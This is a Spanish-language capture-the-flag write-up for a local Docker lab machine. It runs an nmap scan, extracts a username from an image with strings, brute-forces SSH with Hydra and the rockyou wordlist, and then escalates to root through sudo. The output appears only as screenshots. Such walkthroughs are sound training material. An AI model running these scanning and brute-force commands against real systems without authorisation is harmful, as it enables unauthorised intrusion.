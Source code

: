 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh borazuwarahctf.tar
```

![Pasted image 20250131105151](https://github.com/user-attachments/assets/50022a2a-e297-43b8-8ac5-4b5ca4cf54ce)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250131105319](https://github.com/user-attachments/assets/f10ac716-bf21-47c1-a98e-3b38347f9d98)

Nos metemos en la web:

![Pasted image 20250131105920](https://github.com/user-attachments/assets/9ef2f896-96a2-465b-a5f5-529637ebe513)

Descargamos imagen:

![Pasted image 20250131105905](https://github.com/user-attachments/assets/ae68660e-b295-43a5-af07-7ebf96f30aa8)

Buscamos cadenas con **strings**:

```Bash
strings imagen.jpeg
```

![Pasted image 20250131110034](https://github.com/user-attachments/assets/62b4d00f-f367-4fee-bbc4-faebc98148e4)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250131110218](https://github.com/user-attachments/assets/a3085079-db67-44b2-93ba-35095317bdb2)

Nos conectamos con **SSH**:

```Bash
ssh borazuwarah@172.17.0.2
```

![Pasted image 20250131110247](https://github.com/user-attachments/assets/c124d279-b88a-42fc-af1a-4519b6b4e1a0)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250131110321](https://github.com/user-attachments/assets/04112533-bb39-4bcd-b103-b5e6e6e37755)

```Bash
sudo bash
```

![Pasted image 20250131110401](https://github.com/user-attachments/assets/9d23bfaa-e543-4801-9c9e-8008133ec2e9)

```Bash
whoami
```

![Pasted image 20250131110425](https://github.com/user-attachments/assets/939f5a9f-758b-4d8a-8286-d95941210248)
